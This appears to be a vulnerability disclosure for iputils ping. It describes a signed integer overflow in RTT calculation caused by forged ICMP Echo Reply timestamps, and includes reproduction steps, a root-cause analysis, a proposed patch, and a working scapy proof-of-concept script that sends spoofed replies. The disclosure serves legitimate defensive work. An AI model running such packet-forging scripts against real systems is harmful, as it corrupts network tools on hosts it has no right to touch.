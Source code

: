 
# ping\_rtt overflow

## Summary

A crafted ICMP Echo Reply can trigger a signed 64-bit integer overflow in iputils `ping` RTT calculation. By forging the timestamp field in the ICMP payload to be sufficiently large, the multiplication of seconds by 1,000,000 exceeds the signed `long` range, causing undefined behavior. Under AddressSanitizer (ASan), this is detected as a runtime error. In non ASan builds it wraps silently and clamps to zero, resulting in repeated zero-RTT readings and incorrect statistics.

## Affected Versions

* iputils `ping` from the current `master` branch: [https://github.com/iputils/iputils/tree/master](https://github.com/iputils/iputils/tree/master)
* Ubuntu package version: `iputils-ping 3:20240117-1build1`

## Environment

* Distribution: Ubuntu 24.04.1 LTS (Noble Numbat)
* Kernel: 5.15.167.4-microsoft-standard-WSL2
* Architecture: x86\_64

## Steps to Reproduce

1. Check out the `master` branch of iputils and build with ASan:

   ```sh
   git clone https://github.com/iputils/iputils.git
   cd iputils
   mkdir builddir-asan && cd builddir-asan
   meson .. -Denable-sanitizers=true
   ninja
   ```
2. In one terminal, start the PoC listener script (`poc.py`):

   ```sh
   sudo ./poc.py
   ```
3. In another terminal, run ping:

   ```sh
   sudo ./ping/ping -R -s 64 127.0.0.1
   ```
4. Observe signed-integer-overflow errors from ASan:

   ```
   ../ping_common.c:757: runtime error: signed integer overflow
   ```
5. Without sanitizers, observe `time=0.000 ms` on every reply despite real latency and truncated/duplicate replies.

## Root Cause Analysis

In `ping_common.c`, the code does:

```c
/* normalize recv_time - send_time */
tvsub(&tv, &tmp_tv);
/* compute microseconds */
triptime = tv.tv_sec * 1000000 + tv.tv_usec;
```

Because `tv->tv_sec` is a signed 64-bit `long` and attacker controls it via the ICMP payload, multiplying by 1,000,000 can exceed `LONG_MAX`, causing signed overflow (CWE-190). The code does not check for overflow before or after the multiplication.

## Proposed Fix

Modify the RTT computation to use a 128-bit intermediate and clamp:


```diff
--- a/ping_common.c
+++ b/ping_common.c
@@ -754,7 +754,15 @@ gather_statistics(struct ping_rts *rts, uint8_t *icmph, int icmplen,
        tvsub(tv, &tmp_tv);
-       triptime = tv->tv_sec * 1000000 + tv->tv_usec;
+       {
+           __int128 delta = (__int128)tv->tv_sec * 1000000 + tv->tv_usec;
+           if (delta < 0) {
+               triptime = 0;
+           } else if (delta > LLONG_MAX) {
+               triptime = (long)LLONG_MAX;
+           } else {
+               triptime = (long)delta;
+           }
+       }
```

## PoC Script (`poc.py`)

```python
#!/usr/bin/env python3
from scapy.all import IP, ICMP, Raw, send, sniff, bind_layers
import time, struct, sys, os

LISTEN_INTERFACE = "lo"
TARGET_IP = "127.0.0.1"
FUTURE_OFFSET_SEC = 1.0

bind_layers(ICMP, Raw)

def process_packet(pkt):
    if not (pkt.haslayer(IP) and pkt.haslayer(ICMP)):
        return
    ip = pkt[IP]
    ic = pkt[ICMP]
    if ic.type != 8:
        return

    fut = time.time() + FUTURE_OFFSET_SEC
    sec = int(fut)
    usec = int((fut - sec) * 1_000_000)

    data = struct.pack('=ll', sec, usec)
    data += b'Z'*20   # padding to force full timeval read and overflow

    reply = (
        IP(src=ip.dst, dst=ip.src) /
        ICMP(type=0, code=0, id=ic.id, seq=ic.seq) /
        Raw(load=data)
    )

    print(f"sending id={ic.id} seq={ic.seq} sec={sec} usec={usec} len={len(data)}")
    send(reply, iface=LISTEN_INTERFACE, verbose=False)


def main():
    if os.geteuid() != 0:
        sys.exit("need root")
    filt = f"icmp and icmp[icmptype] = icmp-echo and host {TARGET_IP}"
    print(f"listening on {LISTEN_INTERFACE} for {TARGET_IP}")
    sniff(iface=LISTEN_INTERFACE, filter=filt, prn=process_packet, store=0)

if __name__=='__main__':
    main()
```

----
```
Signed-off-by: Mohamed Maatallah <hotelsmaatallahrecemail@gmail.com>
```
